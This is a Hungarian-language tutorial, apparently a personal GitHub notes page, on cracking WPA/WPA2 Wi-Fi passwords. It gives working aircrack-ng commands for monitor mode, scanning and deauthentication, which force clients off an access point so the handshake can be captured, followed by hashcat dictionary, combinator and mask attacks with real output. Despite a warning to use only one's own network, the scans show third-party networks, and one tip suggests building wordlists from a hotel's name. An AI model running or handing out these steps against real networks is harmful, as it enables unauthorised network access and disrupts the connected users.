


[<< Vissza](../index.md) | [ Switch to English](index-en.md) | 

<hr>

> **WARNING:** Az itt leírtak kizárólag oktatási célt szolgálnak. Soha ne próbáljuk meg mások hálózatát feltörni se ezekkel a módszerekkel se máshogyan, kizárólag direkt, erre a célra létrehozott, saját hálózatokon kísérletezzünk mert más hálózatának feltörése törvénysértő és etikátlan! A szerző semmilyen felelősséget nem vállal azért, ha valaki a figyelmeztetés ellenére rosszindulatúan használná fel az itt leírtakat.

<br>

<!-- TOC -->

- [Bevezető](#bevezető)
  - [Mit is fogunk csinálni](#mit-is-fogunk-csinálni)
  - [Hogyan működik a WPA titkosítás](#hogyan-működik-a-wpa-titkosítás)
- [Installáció](#installáció)
  - [Aircrack-ng](#aircrack-ng)
  - [hashcat-utils](#hashcat-utils)
- [git clone https://github.com/hashcat/hashcat-utils.git](#git-clone-httpsgithubcomhashcathashcat-utilsgit)
- [make](#make)
  - [Hashcat](#hashcat)
- [Handshake elkapása](#handshake-elkapása)
    - [Monitor mode bekapcsolása](#monitor-mode-bekapcsolása)
    - [Hálózatok feltérképezése](#hálózatok-feltérképezése)
    - [Handshake elkapása](#handshake-elkapása-1)
    - [Újrakapcsolódás kierőszakolása](#újrakapcsolódás-kierőszakolása)
    - [Mi jött létre](#mi-jött-létre)
    - [Monitor kikapcsolása](#monitor-kikapcsolása)
    - [Konvertálás](#konvertálás)
- [Hash visszafejtése](#hash-visszafejtése)
  - [GPU rig használata](#gpu-rig-használata)
    - [Szimpla szótárár alapú keresés](#szimpla-szótárár-alapú-keresés)
- [/usr/bin/screen -d -m -S minerscreen ./hashcat64.bin ...paraméterek ...](#usrbinscreen--d--m--s-minerscreen-hashcat64bin-paraméterek-)
- [/usr/bin/screen -d -m -S minerscreen /home/adam/hashcat/hashcat64.bin -m 2500 -a 1 -o cracked.txt myhash.hccapx rockyou.txt](#usrbinscreen--d--m--s-minerscreen-homeadamhashcathashcat64bin--m-2500--a-1--o-crackedtxt-myhashhccapx-rockyoutxt)
- [screen -r](#screen--r)
    - [Kombinált szótár alapú keresés](#kombinált-szótár-alapú-keresés)
    - [Kombinált szótár alapú keresés számokkal](#kombinált-szótár-alapú-keresés-számokkal)
    - [Brute-force](#brute-force)
  - [GPU hash szolgáltatók](#gpu-hash-szolgáltatók)
    - [gpuhash.me](#gpuhashme)
    - [onlinehashcrack](#onlinehashcrack)
- [WEP hálózat feltörése](#wep-hálózat-feltörése)

<!-- /TOC -->

<br>


# Bevezető


## Mit is fogunk csinálni


https://medium.com/@brannondorsey/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat-a5a5d3ffea46<br>


A WPA titkosítással rendelkező WiFi hálózatokat kizárólag hash visszafejtéssel lehet törni, és csak akkor ha nem túl bonyolult és túl hosszú a jelszó, különben már több áram és idő kéne hozzá, mintsem hogy megérje. Különösen akkor van esélyünk feltörni egy WPA vagy WPA2 jelszót, ha az 10 karakternél nem hosszabb és szótári szavak kombinációjaként áll elő. Ha teljesen random a sorozat, akkor már viszonylag rövidebb jelszó esetén is (10 karakter) már hetekbe telhet a törés (GPU rig-en). 


A törésre mindenképpen GPU rigre van szükség, ez CPU-ban, különösen laptopon biztos hogy nem végezhető el. Sőt, egy darab GPU-val sem jutunk messzire. Minél nagyobb a rig, úgy nyerhetünk napokat. 


Két szoftvercsomagot fogunk használni: 
- '''a
 
<!--  -->

- **hashcat**
 
<!--  -->


A WEP titkosítással védett hálózatokat ennél sokkal egyszerűbb feltörni, mert ott ki lehet használni az algoritmus hibáit. WEP esetén a legegyszerűbb az **airgeddon** szoftvercsomag használata, amihez a legideálisabb a **Keli Linux** disztribúció, mert abban már minden benne van ami az **airgeddon** futtatásához szükséges. A WPA töréséhez is használhatjuk az airgeddon-t (https://github.com/v1s1t0r1sh3r3/airgeddon/wiki/Installation-&-Usage), de az **airgeddon** -al készült handshake fájlt nem tudtam hashcat formátumra konvertálni. Az airgeddon igazából nem csinál mást, mint összefogja a különböző WiFi manipuláló/törő eszközöket, és egy egységes, felhasználó barát interfészt húz feléjük, így a használata nagyon kezesbárány (pl. a hascat-et is használja CPU üzemmódban). 


A WPA jelszó törésekor a koncepció a következő. Elsőként begyűjtjük a feltörni  kívánt hálózat adatait. Szükségünk van a BSSID-ra és a csatorna számára, amit az AccessPoint használ. Ha már tudjuk ezeket az információkat, akkor elkezdünk addig hallgatózni a csatornánk, amíg nem érkezik egy Handshake üzenet valamelyik klienstől. Csak olyan hálózatot tudunk megtámadni, ahol vannak kliensek, akik már ismerik a jelszót. Ha van legalább 1db kliens az AP-ra csatlakozva, akkor azt a klienst egy hamis autentikációs üzenettel rá tudjuk venni hogy csatlakozzon újra, így el tudjuk kapni a handshake üzenetet, amiben benne van a jelszó hash lenyomata. Ezen komplex feladat elvégzésére a **aircrack-ng** szoftver csomagot fogjuk használni. 


 
<!--  -->


Nem minden WiFi kártya alkalmas hálózat monitorozásra vagy manipulációra. Állítólag léteznek direkt erre a célra különösen jól megfelelő (külső) kártyák. Nekem a laptop-ba épített kártyával is ment. (Qualcomm Atheros AR9485)


A hash visszafejtését egy GPU rig-en fogjuk végezni a **hashcat** programmal, ami remekül ki tudja használni a GPU rig nyújtotta párhuzamosíthatóságot. Az **airmon-ng** által kiköpött hash formátum nem fogyasztható a **hashcat** által, ezért a **.cap** formátumot konvertálni kell **.hccapx** formátumra, majd brute-force módszerrel megpróbáljuk visszafejteni a hash-t.

A hash visszafejtés valójában "random" próbálkozás. Fogunk egy jelszó jelöltet, a megfelelő hash módszerrel elkészítjük a hash lenyomatát (az esetünkben WPA hash-t kell használni) majd a hash lenyomatot összehasonlítjuk a handshake-ben található hash-el. Ha nem talált, akkor veszünk egy új jelöltet és kezdjük elölről. A siker kulcsa igazából azon múlik, hogy milyen módszerrel határozzuk meg a következő jelöltet. 
- **brute-force:** egy megadott hosszban, a karakter készlet univerzum összes variációját végig próbálgatjuk sorban, mindig egy karaktert kicserélve. (pl. kis és nagy betűk, számok, speciális karakterek) Ezzel a módszerrel biztos rá akadunk a jelszóra (ha jó hosszúságon próbálkozunk) viszont akár hónapokba is telhet. 
- **szótár alapú**: léteznek előre gyártott szó készletek, amiben több 10 ezer szó is össze lehet gyűjtve. Egy ilyen gyűjtemény szavait végigpróbálgatni még 10 ezres nagyságrend esetén is csak a töredéke a brute force módszernek. 
- **kombinált módszerek**: szótárakat kombinálunk egymással, vagy pl számokkal. Ezzel nagyban kibővíthetjük a keresési univerzumot, de még midig csak a töredéke az elvégzendő munka a brute-force-nak.


## Hogyan működik a WPA titkosítás
<br>

<br>


# Installáció


## Aircrack-ng
Installálni kell a **aircrack-ng** csomagot
```
1. dnf install aircrack-ng
```


## hashcat-utils
Az aircrack által használt **.cap** fájformátumot a **hashcat-utils-master** csomagban található konverterrel tudjuk majd **.hccapx** formátumra konvertálni, amiben a hash formátum már megfelelő a haschcat-nek. 


A github-rol tudjuk letölteni: https://github.com/hashcat/hashcat-utils

A fordításhoz csak egy make kell: 
 # git clone https://github.com/hashcat/hashcat-utils.git
 # make
<br>

<br>


## Hashcat
A Hascat-et a GPU rigre kell telepíteni. Itt feltételezzük, hogy már rendelkezésünkre áll egy teljesen konfigurált GPU rig (mining rig). 


A hashcat binárist csak le kell tölteni és ki kell telepíteni (7z-vel):
```
2. yum install p7zip
3. wget https://hashcat.net/files/hashcat-4.1.0.7z
...
4. 7za x hashcat-4.1.0.7z
```


Próbáljuk ki az alábbi teszt paranccsal hogy jól fut e: 
```
5. ./hashcat64.bin -m 1000 -b
hashcat (v4.1.0) starting in benchmark mode...

Benchmarking uses hand-optimized kernel code by default.
You can use it in your cracking session by setting the -O option.
Note: Using optimized kernel code limits the maximum supported password length.
To disable the optimized kernel code in benchmark mode, use the -w option.

- Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
- Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
- Device #3: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
OpenCL Platform #1: NVIDIA Corporation
======================================
- Device #1: GeForce GTX 1060 3GB, 754/3019 MB allocatable, 9MCU
- Device #2: GeForce GTX 1060 3GB, 754/3019 MB allocatable, 9MCU
- Device #3: GeForce GTX 1050 Ti, 1010/4040 MB allocatable, 6MCU

Benchmark relevant options:
===========================
- --optimized-kernel-enable

Hashmode: 1000 - NTLM

Speed.Dev.#1.....: 14465.9 MH/s (83.46ms) @ Accel:128 Loops:1024 Thr:1024 Vec:1
Speed.Dev.#2.....: 13824.3 MH/s (85.87ms) @ Accel:128 Loops:1024 Thr:1024 Vec:1
Speed.Dev.#3.....:  8868.6 MH/s (87.05ms) @ Accel:256 Loops:512 Thr:1024 Vec:1
Speed.Dev.#*.....: 37158.8 MH/s
```

Látható hogy a rig-ünk teljes kapacítása 37158.8 Mega hash / sec (ez nem túl sok). Fontos hogy a rig összes GPU-ja ki legyen itt listázva. 
<br>

<br>


# Handshake elkapása


### Monitor mode bekapcsolása
A WiFi adatpert át kell állítani monditor üzemmódba. Erre nem minden wifi kártya képes, a DELL gyári kártyája, szerenécsre igen: 
```
6. airmon-ng start wlp3s0

.... [phy0]wlp3s0mon)
```
Az utolsó sorban láthatjuk hogy mi lett a monitor interfész neve, ezt kell használni innentől kezdve a támadás során: **wlp3s0mon**


### Hálózatok feltérképezése
Most nézzük meg hogy milyen hálózatokat lát a WiFi kártya. Szükésgünk lesz a feltörendő hálózat BSSID-jére és az AccessPoint által használt csatornára:
```
7. airodump-ng wlp3s0mon
 CH  7 ][ Elapsed: 1 min ][ 2018-07-25 16:29                                         
                                                                                                                                                      
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                      
 AC:C1:EE:88:CE:93  -51      279        0    0   6  54e. WPA2 CCMP   PSK  RedmiAdam                                                                   
 00:12:C9:31:7A:28  -77      103        0    0   6  54e. WPA2 CCMP   PSK  TEST_NETWORK    <<<<                                                              
 C4:A3:66:45:34:6C  -84       56       23    0   1  54e  WPA2 CCMP   PSK  COSMOTE-45346C                                                              
 70:3A:D8:08:9A:F4  -86       47        8    0   9  54e  WPA2 CCMP   PSK  Almare_Roof                                                                 
 18:A6:F7:7E:B2:74  -86       43        0    0   1  54e  WPA2 CCMP   PSK  TEST_NETWORK RECEPTION                                                       
 68:72:51:62:B0:19  -91        1        0    0  10  54e. WPA2 CCMP   PSK  Hotel Hara 2                                                                 
 52:A3:66:50:72:C9   -1        0        1    0   1  -1   OPN              <length:  0>                                                                 
...    
```
Látható, hogy az általunk felörni kívánt hálózat a 6-os csatornán van, és a BSSID-je: **00:12:C9:31:7A:28**


### Handshake elkapása
Most addig fogunk hallgatózni ezen a csatornán, amíg nem érkezik legalább egy hanshsake az egyik klienstől. Ha egy kliens sincs éppen az AP-re csatlakozva, akkor nem járhatunk sikerrel. 
A hallgatózó airodump-ng parancs szintaktikája az alábbi: 

airodump-ng -c <csatorna száma> --bssid <bssid> -w <output fájl base neve> <interfész név>

- csatorna száma: 6
- bssid: 00:12:C9:31:7A:28
- montitor interszé neve: wlp3s0mon

```
8. airodump-ng -c 6 --bssid 00:12:C9:31:7A:28 -w psk3 wlp3s0mon
CH  6 ][ Elapsed: 12 s ][ 2018-07-25 16:41     <itt jelenik majd meg a handshake>                                    
                                                                                                                                                      
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                      
 00:12:C9:31:7A:28  -80 100      147        3    0   6  54e. WPA2 CCMP   PSK  TEST_NETWORK                                                            
                                                                                                                                                      
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                            
                                                                                                                                                      
 00:12:C9:31:7A:28  8C:F5:A3:9A:A8:D0  -83    0 -24      0        1                                                                                    
 00:12:C9:31:7A:28  8C:0D:76:D4:56:34   -1    0e- 0      0        2                                                                                    
 00:12:C9:31:7A:28  AC:C1:EE:97:17:EF  -89    0 - 6      0        2       
```
> **NOTE:** Ha itt nem látunk egy klienst sem a listában, akkor nem fog sikerülni a támadás, mert nem lesz ki újra csatlakozzon


Láthatjuk a klienseket az alsó listában (station). Jelenleg 3 kliens csatlakozik az AP-re. Vagy addig várunk, amíg valaki nem csatakozik újra, vagy kierőszakoljuk mi magunk az újracsatlakozást a kliensek becsapásával. A cél, hogy a jobb felős sarokban megjelenjen a **WPA handshake** felirat, amit be is jelöltem  ('itt jelenik majd meg a handshake')

<br>


### Újrakapcsolódás kierőszakolása
Most erőszakoljuk ki a kliensek újracsatlakozását egy hamis autentikációs üzenettel, amit a broadcust címre küldünk a **aireplay-ng** eszközzel, ami része az airodump-ng csomagnak. 
> **WARNING:** Az összes kliens meg fogja szakítani a kapcsolatot egy pillanatra az AP-val, így történhet adatvesztés


Szintaxis: 
 aireplay-ng -0 2 -a <bssid> <interfész név>


Itt a 2-val azt mondjuk  meg, hogy kettő darab becsapós csomagot küldjön ki. Nyissunk meg egy másik command ablakot, és adjuk ki az alábbi parancsot: 
```
9. aireplay-ng -0 2 -a 00:12:C9:31:7A:28 wlp3s0mon
16:52:50  Waiting for beacon frame (BSSID: 00:12:C9:31:7A:28) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
16:52:50  Sending DeAuth to broadcast -- BSSID: [00:12:C9:31:7A:28]
16:52:51  Sending DeAuth to broadcast -- BSSID: [00:12:C9:31:7A:28]
```
Látható, hogy kettő darab becsapós csomagot küldütt ki az AP nevében a broadcust címre. Most várni kell hogy a kliensek úrja csatlakozzanak. 


Ha legalább egy kliens megkapta a becsapós csomagot, újra fog csatlakozni. Ezt onnan fogjuk lánti, hogy a hálózat figyelő abalkunkban, jobb felül megjelenik a handshake. A Crtl+c-vel állítsuk le a montitort. 
```
CH  6 ][ Elapsed: 2 mins ][ 2018-07-25 16:58 ][ WPA handshake: 00:12:C9:31:7A:28     <<<itt megjelent a handshake                                      
                                                                                                                                                      
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                      
 00:12:C9:31:7A:28  -79 100     1484       63    0   6  54e. WPA2 CCMP   PSK  TEST_NETWORK                                                            
                                                                                                                                                      
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                     
...
```
> **NOTE:** Ha a becsapós csomagok kiküldése után pár másodperccel nem jelenik meg a handshake, akkor kicsit várjunk, hogy újabb kliensek is az AP-ra csatlakozzanak, és próbáljuk meg újra. (pl este, mikor nagyobb az AP-n a forgalom, olyankor garantált a siker


### Mi jött létre
Nézzük meg milyen fájlok keletkeztek: 
```
10. ll
total 4468
....
-rw-r--r--  1 root root  170590 Jul 25 16:58 psk3-03.cap
-rw-r--r--  1 root root     589 Jul 25 16:58 psk3-03.csv
-rw-r--r--  1 root root     592 Jul 25 16:58 psk3-03.kismet.csv
-rw-r--r--  1 root root    4034 Jul 25 16:58 psk3-03.kismet.netxml
```
Számunkra a **.cap** kiterjesztésű fájl az érdekes, abban vannak elmentve a handshake-ek, amiket akkor kaptunk el, mikor a kliensek újra csatlakoztak az AP-hez. Itt egy vagy több hash található, amiket vissza fogunk fejteni a GPU riggel. (az utolsó számot futtatásonként egyel növeli az airodump-ng, nálunk ez a 3. futtatás eredménye)


### Monitor kikapcsolása
Ha megvan a handshake, fontos, hogy kikapcsoljuk a monitor üzemmódot a WiFi kártyán, mert addig nem tudjuk internetezésre használni. 
```
airmon-ng stop wlp3s0mon
```
A kikapcsoláshoz nem a kártya nevét kell megadni, hanem a monitor interfész nevét. 
<br>

<br>


### Konvertálás


A **.cap** fájlt konvertálni kell **.hccapx** formátumra, hogy fel tudjuk dolgozni a **hashcat** programmal. A konverziót a **cap2hccapx** eszközzel végezhetjük el (vagy online, keressünk rá)
```
cd ...../hashcat-utils-master/src/
11. ./cap2hccapx.bin psk3-03.cap psk3-03.hccapx
Networks detected: 1

[*] BSSID=00:12:c9:31:7a:28 ESSID=TEST_NETWORK (Length: 12)
 --> STA=ac:c1:ee:97:17:ef, Message Pair=0, Replay Counter=1
 --> STA=ac:c1:ee:97:17:ef, Message Pair=2, Replay Counter=1

Written 2 WPA Handshakes to: psk3-03.hccapx
```
Látható, hogy a **psk3-03.cap** fájl 2 handshake-et tartalmazott, tehát két klienst is rá tudtunk venni hogy újracsatlakozzon. 
> **NOTE:** Ha az utolsó sorban az jelenik meg, hogy '**Written 0 WPA..**', az azt jelenit, hogy nem tartalmazott handshake-t a .cap fájl, nem sikerült felvenni egy újracsatlakozást sem. Mindig várjuk meg, hogy a monitorozás alatt megjelenjen jobb fölül a 'WPA Handshake' felirat.


<br>


# Hash visszafejtése
Az itt leírtakat bármilyen jelszó feltörésére használhatjuk, nem csak WPA, mindösszesen a **haschat** paraméterezésén kell változtatni, ha nem WPA hash-t akarunk törni. 


## GPU rig használata
Hogyan telepítsük + gui: https://www.shellntel.com/blog/2017/2/8/how-to-build-a-8-gpu-password-cracker<br>


 
<!--  -->


<br>

Célszerű betartani egy sorrendet az egyszerűtől a nagyon bonyolultig. Elsőként mindig próbáljuk meg szimplán a szótár alapú törést használni. Ekkor egy szótár fájl minden egyes sorára egyenként rápróbál a hashcat. Ha ez nem működött érdemes a kombinált törést alkalmazni, amikor több szótár fájl tartalmát permutáljuk. Ha ez is kevés, akkor számokat is hozzá adhatunk. Ha még ez sem segített, csak akkor érdemes a brute-force visszafejtés. 


Nekem csak egy 3 GPU-s rigem van, ami nem képvisel túl komoly számítási kapacitást, így brute-force törésre gyakorlatilag alkalmatlan. 


Első lépésként a konvertált hash fájlt (psk3-03.hccapx) a rig-re kell másolni. 
```
12. scp psk3-03.hccapx root@example.org:/path/to/folder
```


> **TIP:** Fontos, hogy minden más GPU tevékenységet leállítsunk a rig-en, tehát NE bányásszunk, amíg jelszó visszafejtésre akarjuk használni a gépet :)  


A hashcat szintaxis az alábbi: <br>


 ./hashcat64.bin -m <hash típus> -a <törési módszer> -o <ahova a végeredmény kerül> <hash fájl> <szótár fájl(ok)>

- -m: hash típus: A hashcat töménytelen típust támogat. WPA esetén ez 2500. Íme a lista: https://hashcat.net/wiki/doku.php?id=example_hashes
- -a: törési módszer: 
	- 0: sima szótár fájl alapú
	- 1: kombinált szótárak
	- 3: brute force
	- Hybrid Wordlist + Mask
	- Hybrid Mask + Wordlist


És egy nagyon részletes help: 
 ./hashcat64.bin --help
<br>

<br>


### Szimpla szótárár alapú keresés
Nagyon nagyon sok szó gyűjtemény létezik. A Keli linux-ban gyárilag nagyon sok szótárat találunk. Az egyik legáltalánosabb gyűjtemény a **rockyouo.txt**, amiben jelenleg 14344391 'szó kombináció' található. Azért mondom hogy kombináció, mert a legtöbb szó számokkal keverve is megtalálható. Ezen felül a leggyakoribb jelszavakat is tartalmazza. 

```
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```


Majd **-a** után adjuk meg a 0-át (egy szótár alapján törünk) és a parancs végére tegyük oda a szótár fájlt: 
```
13. ./hashcat64.bin -m 2500 -a 0 -o cracked.txt psk3-03.hccapx rockyou.txt
...
Session..........: hashcat
Status...........: Cracked
Hash.Type........: WPA/WPA2
Hash.Target......: STUDIO IRENE (AP:00:12:c9:31:7a:28 STA:ac:c1:ee:97:17:ef)
Time.Started.....: Wed Jul 25 23:55:04 2018 (2 secs)
Time.Estimated...: Wed Jul 25 23:55:06 2018 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:    91063 H/s (7.24ms) @ Accel:32 Loops:16 Thr:1024 Vec:1
Speed.Dev.#2.....:    85771 H/s (7.25ms) @ Accel:32 Loops:16 Thr:1024 Vec:1
Speed.Dev.#3.....:    85478 H/s (7.80ms) @ Accel:32 Loops:16 Thr:1024 Vec:1
Speed.Dev.#*.....:   262.3 kH/s
...
```


A végeredmény a **cracked.txt**-be kerül. A Státusz mezőbe azt kell lássuk hogy **Cracked**. 
```
14. cat cracked.txt 
bba17692f1d2b32ef68f4b34f037d9a2:0012c9317a28:acc1ee9717ef:TEST_NETWORK:33333333
```
A jelszó az utolsó mező, előtte van a hálózat neve.


<br>

Mivel nagyon sokáig is futhat a hashcat, célszerű a screen programmal futtatni. A háttérben fog futni, de bármikor rá tudunk újra csatlakozni a konzolra: 
 # /usr/bin/screen -d -m -S minerscreen ./hashcat64.bin ...paraméterek ...

 # /usr/bin/screen -d -m -S minerscreen /home/adam/hashcat/hashcat64.bin -m 2500 -a 1 -o cracked.txt myhash.hccapx rockyou.txt

Visszacsatlakozás a konzolra: 
 # screen -r

Majd a Crtl+a+d-vel tudunk lecsatlakozni a konzolról. 
<br>

<br>


### Kombinált szótár alapú keresés
https://www.4armed.com/blog/hashcat-combinator-attack/

Nagyon egyszerű dolgunk van. A **-a** után **1**-et kell írni (kombinált szótárak) és a parancs végén a második szótár fájlt is meg kell adni, ami akár ugyan az is lehet mint az első. Az első fájl összes szavához hozzá fogja illeszteni a második fájl összes szavát. 

```
./hashcat64.bin -m 2500 -a 1 -o cracked.txt psk3-03.hccapx rockyou.txt dictionary2.txt
```


Ha csak 1 szótárat adunk meg, de **-a 1** -et adunk meg, akkor magától permutálni fogja a szótár szavait. 
```
./hashcat64.bin -m 2500 -a 1 -o cracked.txt psk3-03.hccapx rockyou.txt
```


> **NOTE:** Gyakran tudjuk hogy a szálloda neve nyilván benne van a jelszóban vagy hogy a jelszó végén egy évszám van. Ezért csinálhatunk olyan szótárakat amiben az utolsó 10 éve évszámait soroljuk fel, és ezt adjuk meg második szótár fájlnak, vagy csinálhatunk olyan fájlt, amiben a szálloda neve van variálva, és ezt kombináljuk össze egy ismert szó gyűjteménnyel. (persze ezt csak hipotetikusan írtam le, sose próbáltam ki)

<br>

<br>


### Kombinált szótár alapú keresés számokkal
> **TIP:** A rockyou.txt szótárban sok szó megtalálható számokkal kombinálva

Ezt nem próbáltam ki, de ezt írták rá: 
<br>

*Easiest way is using combinator from hashcat utils, pipe that to hashcat and use rules to append the numbers.*
 combinator word1.txt word2.txt | hashcat -m2500 -r append_digit.rule -r append_digit.rule -r append_digit.rule test.hccapx


depending on how small your word lists are etc, you could also think of an alternative like this:
15. first precompute and store a modified 2nd word list: combine the second word list word2 with the digits already combined
16. run -a 1 with word1 and word2_combined_with_3_digits

you could for instance use
 hashcat --stdout -a 6 -o word2_combined_with_3_digits word2 ?d?d?d" --> to combine the dictionary file word2 with 3 digits.
Of course an approach like this only makes sense if:
17. the word list word2 is not too huge (but a too huge word list would anyways be a problem of infeasibility for -a 1 attacks)
18. the storage is not too much of a problem (fast I/O) etc
19. the resulting speed is acceptable

The speed of course depends also a lot on your GPU/CPU setup and most importantly on the hash mode (in your case it is -m 2500 = WPA/WPA2).
A small advantage of this pre-computation approach is that the ETA would be more accurate and the status display of hashcat will show more info (because no pipe is involved in this case).... but of course for most users the speed is more important than just some displayed values.

<br>

<br>


### Brute-force
maszkos támadás a hashcat oldalárol: https://hashcat.net/wiki/doku.php?id=mask_attack<br>

egy remek példa: https://www.4armed.com/blog/perform-mask-attack-hashcat/<br>
<br>

> **WARNING:** Ez a legkevésbé célravezető módszer. Az én 3 GPU-s rigemmel a 8 karakter hosszra is 17 napot jósolt!!! Mennyi áram az, te jó ég. Pláne ha hosszabb! Mindig kezdjük a szótár alapú töréssel, aztán a kombinált töréssel. 

<br>

<br>

A hashcat jelelegi verziója (4) már nem támogatja az igazi brute-force törést, mára már a maszk alapú törést hívják brute-force-nak. Ez azt jelenti, hogy egyrészről valami féle feltételezéssel kell éljünk a jelszó hosszát illetően, másrészt minden egyes jelszó karakterre meg kell adni a karakter készletet, ami ott szóba jöeht. 


Szintaxis: 
 ./hashcat64.bin -m 2500 -a 3 <saját karakter definíciók> -o cracked psk3-03.hccapx <maszk>

- Annyi eltérés van a szótár alapú kereséshez képest, hogy a parancs végén meg kell adni egy maszkot, amivel egyrészt megmondjuk, hogy (maximum) milyen hosszú a jelszó, másrészt megjósoljuk minden egyes pozícióra, hogy ott milyen karakter halmazból kerülhet ki karakter. 
- A maszk-ban minden egyes pozícióra vagy konkrétan odaírjuk azt a betűt/számot amit az adott pozíción várunk (ez akkor lehet érdekes, ha van vmi infónk a jelszóról) vagy a ?<típus>-al megadjuk a karakterhalmazt. 
- A karakter halmaz típusként vagy a gyári, beépített típusokat használhatjuk, vagy egyedieket is megadhatunk. Ezek a beépített típusok: 
```
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?h = 0123456789abcdef
?H = 0123456789ABCDEF
?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
?a = ?l?u?d?s
?b = 0x00 - 0xff
```

- Összesen 4 különböző egyedi típust definiálhatunk. Ekkor a ? után 1-4 ig kell megadni egy számot, és a típust külön kell definiálni a -1 <definíció> vagy -2 <definíció> .. stb módon. A definícióban vagy a beépített elemeket használhatjuk ugyan úgy a ? után megadva a típust, vagy megadhatunk konkrét karaktereket is. Viszont nagy különbség, hogy itt a pozíció nem számít, itt egy szumma halmazt definiálnunk, amik a szóba jöhető karakterek a maszkban azon a pozíción, ahol ezt a számot használtuk. Pl: Ezt írjuk a maszkba:
```
... ?l?1?2?u
```
Ezzel azt mondtuk meg, hogy a jelszó 4 hosszú és az első helyre az angol ABC kisbetűi közül lehet csak választani. A második helyen a -**1** -el definiált karakter halmazból kerülhet ki a győztes, a 3. helyre a **-2**-vel definiált karakter halmazból, míg a 4. helyre csak az angol ABC nagy betűi közül lehet választani. Fontos, hogy megadjuk az 1-es és 2-es karakter halmazok definícióját is: 
```
... -1 ?u?l ...
```
Ezzel megadtuk, hogy az 1-es karakter halmazt az angol ABC kis és nagybetűi alkotják. Tehát a 2. karaktere a jelszónak az angol ABC kis és nagybetűi közül kell hogy kikerüljön. 
 .. -2 ?d@&# ...
Ezzel azt mondtuk meg, hogy a 2-es karakter készletbe a számok tartoznak bele valamint a @,& és #. Tehát a jelszó 3. karaktere vagy egy szám vagy a @,& vagy #.

<br>

A következőkben feltételezzük, hogy a jelszó első 5 karakter kisbetű, és csak az utolsó 3 lehet szám is vagy betű (l ill 1)
```
20. ./hashcat64.bin -m 2500 -a 3 -1 ?l?d -o cracked psk3-03.hccapx ?l?l?l?l?l?1?1?1
hashcat (v4.1.0) starting...
..
Session..........: hashcat
Status...........: Running
Hash.Type........: WPA/WPA2
Hash.Target......: STUDIO IRENE (AP:00:12:c9:31:7a:28 STA:ac:c1:ee:97:17:ef)
Time.Started.....: Wed Jul 25 23:05:44 2018 (4 secs)
Time.Estimated...: Mon Aug 13 06:50:55 2018 (18 days, 7 hours)
Guess.Mask.......: ?l?l?l?l?l?1?1?1 [8]
Guess.Charset....: -1 ?l?d, -2 Undefined, -3 Undefined, -4 Undefined 
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:   133.9 kH/s (15.70ms) @ Accel:64 Loops:16 Thr:1024 Vec:1
Speed.Dev.#2.....:   133.8 kH/s (16.04ms) @ Accel:64 Loops:16 Thr:1024 Vec:1
Speed.Dev.#3.....:    87386 H/s (7.85ms) @ Accel:32 Loops:16 Thr:1024 Vec:1
Speed.Dev.#*.....:   355.1 kH/s
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 1376256/554337478656 (0.00%)
Rejected.........: 0/1376256 (0.00%)
Restore.Point....: 0/21320672256 (0.00%)
